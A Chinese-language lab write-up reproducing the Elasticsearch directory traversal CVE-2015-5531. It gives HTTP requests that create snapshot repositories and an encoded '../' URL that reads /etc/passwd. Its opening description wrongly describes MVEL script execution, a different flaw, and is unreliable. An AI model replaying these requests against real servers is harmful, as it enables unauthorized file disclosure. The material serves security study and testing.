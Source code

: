 # ElasticSearch 目录穿越漏洞（CVE-2015-5531）

> 漏洞说明

Elasticsearch是一个基于Lucene的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于RESTful web接口。Elasticsearch是用Java语言开发的，并作为Apache许可条款下的开放源码发布，是一种流行的企业级搜索引擎。

ElasticSearch有脚本运行的功能，能够非常方便地对查询出来的数据再加工处理。  ElasticSearch用的脚本引擎是MVEL，这个引擎没有做什么的防护，所以直接能够运行随意代码。  而在ElasticSearch里，默认配置是打开动态脚本功能的，因此用户能够直接通过http请求，运行随意代码。



> 前提条件



> 利用工具



> 漏洞复现

elasticsearch 1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在path.repo，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

访问http://192.168.40.77:9200/可以看到es成功启动

![image-20230103003120663](../img/ElasticSearch_CVE-2015-5531/image-20230103003120663.png)

构造请求数据包添加一个仓库

```http
PUT http://192.168.40.77:9200/_snapshot/test HTTP/1.1
Host: 192.168.40.77:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```

返回200，添加成功

![image-20230103003136109](../img/ElasticSearch_CVE-2015-5531/image-20230103003136109.png)

创建快照

```htt
PUT http://192.168.40.77:9200/_snapshot/test2 HTTP/1.1
Host: 192.168.40.77:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 126

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```

返回200，添加成功

![image-20230103003158044](../img/ElasticSearch_CVE-2015-5531/image-20230103003158044.png)

读取任意文件http://192.168.40.77:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

![image-20230103003322849](../img/ElasticSearch_CVE-2015-5531/image-20230103003322849.png)

解码成功读取/etc/passwd

![image-20230103003531408](../img/ElasticSearch_CVE-2015-5531/image-20230103003531408.png)
